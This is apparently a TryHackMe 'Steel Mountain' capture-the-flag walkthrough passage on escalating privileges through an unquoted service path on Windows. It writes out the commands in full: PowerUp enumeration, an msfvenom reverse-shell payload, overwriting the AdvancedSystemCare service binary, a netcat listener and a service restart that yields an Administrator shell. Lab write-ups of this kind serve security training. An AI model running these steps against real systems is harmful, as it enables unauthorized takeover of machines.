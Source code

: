 # Unquoted Service Path

{% embed url="https://systemweakness.com/steel-mountain-tryhackme-walkthrough-552021de9159" %}

```
meterpreter > powershell_shellPS > . .\PowerUp.ps1PS > Invoke-Allchecks
```

This will run our scripts and after that, we will analyze our results and we get a process with Restartable permission in our results with a service named **AdvancedSystemCareService9.**

> 2\. Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an _unquoted service path_ vulnerability?

### Enumerate Permissions on the Binary

```
 powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl

```

Ans : **AdvancedSystemCareService9**

Now as we found our service we will now generate a payload for exploiting our target using msfvenom on our machine and then uploading it to our target.

```
msfvenom -p windows/shell_reverse_tcp LHOST=[Your_Local_IP] LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```

Now let’s move back to our meterpreter shell and do the following process:

```
meterpreter > shell# to stop the serviceC:\Users\bill\Desktop> sc stop AdvancedSystemCareService9# press ctrl+C to exit the processmeterpreter > upload ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"# the path above is the path of the service and we are replacing it with our malicious payload (always check the path of the file to be same as your metasploit path in which it is running)
```

Let’s start a Netcat listener in another tab of our terminal

```
nc -lvnp 4443
```

Let’s move back to the shell and start our service again and here comes the juice 🧃

```
meterpreter > shellC:\Users\bill\Desktop> sc start AdvancedSystemCareService9
```

Congratulations!! we have our Administrator shell in our Netcat listener

